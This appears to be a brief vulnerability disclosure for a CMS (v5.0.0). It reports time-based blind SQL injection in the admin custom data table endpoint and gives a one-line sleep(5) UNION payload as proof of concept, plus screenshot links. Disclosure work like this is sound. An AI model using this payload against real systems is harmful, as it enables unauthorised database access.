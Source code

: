 version:v5.0.0


SQL injection exists for custom data tables,url is  /admin/div_data/data


The function is located in, Extended Content - Custom Data

![1](https://github.com/YunmengGJM/cms/assets/163656209/6faa9c59-d114-444d-8087-4f5b8372794e)



poc：

```
 	cms_admin union select 1,1,1,1,1,sleep(5))a #
```
![3](https://github.com/YunmengGJM/cms/assets/163656209/f2f1eceb-b318-477c-bf9e-47c72dd1aae4)


Then obtain the corresponding data packet

![1](https://github.com/YunmengGJM/cms/assets/163656209/cf81330f-ccea-4597-a65d-67db1736ea12)



5 second delay with injection present

![4](https://github.com/YunmengGJM/cms/assets/163656209/3d779d82-547a-4744-b539-e15c3ca55a19)
